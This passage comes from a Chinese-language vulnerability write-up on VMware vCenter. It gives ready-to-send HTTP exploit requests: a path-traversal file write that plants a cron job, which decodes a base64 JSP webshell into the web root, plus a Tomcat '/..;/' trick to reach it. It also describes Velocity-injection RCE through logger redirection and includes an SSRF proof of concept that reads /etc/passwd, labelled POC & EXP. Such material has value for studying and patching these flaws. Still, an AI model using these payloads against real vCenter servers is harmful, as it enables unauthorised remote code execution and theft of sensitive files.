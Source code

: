 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoROU2FaQJQjWO40mJsxEBsHV1DPl5fjetLXcYZUpPheFPlhRneUFbtg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
目前已经可以控制任意文件写入，但是没有办法控制文件后缀 .json  
，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：  
```
POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1
Host: IP
Content-Type: application/json
Content-Length: 144

* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp
```  
  
  
待定时任务启动后，可在 https://localhost/idm/..;/hello.jsp  
 可以访问到 shell。  
  
(这里的/..;/  
是因为Tomcat会将/..;/  
视作/../  
，可以利用该特性绕过 vCenter 某些版本的 rhttpproxy  
 的访问限制)。  
##### DataAppAgentController 漏洞  
  
官方提供的 POC 中还涉及到一个接口：/analytics/telemetry/ph/api/dataapp/agent  
，而在新版本的代码中，已经将端点： /dataapp/agent  
 相关代码全部删除，因此确定漏洞的位置。  
  
最终通过VelocityHelper.executeVelocityExpression  
 触发 velocity  
 表达式执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoNFmFsMlByjhvHGbkxF51B5Kn1WvyvnMlEPibHOY8LEsico0KYLcStseg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
最终 @testbnull  
 发现可以通过上下文可用的 $GLOBAL-logger  
，利用 setFile  
 方法临时修改日志路径到 Web 路径的方式，写入 WebShell 实现 RCE。  
### 2.6 provider-logo SSRF 漏洞  
#### 2.6.1 漏洞利用  
  
VMware vCenter v 7.0.x 的某些版本中存在未授权 SSRF 漏洞，可以读取本地文件造成敏感信息泄露；读取远程文件形成 XSS 漏洞。  
  
POC & EXP：  
  
/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml  
```
GET /ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd HTTP/1.1
Host: {{target}}
```  
  
  
读取 /etc/passwd  
：  
  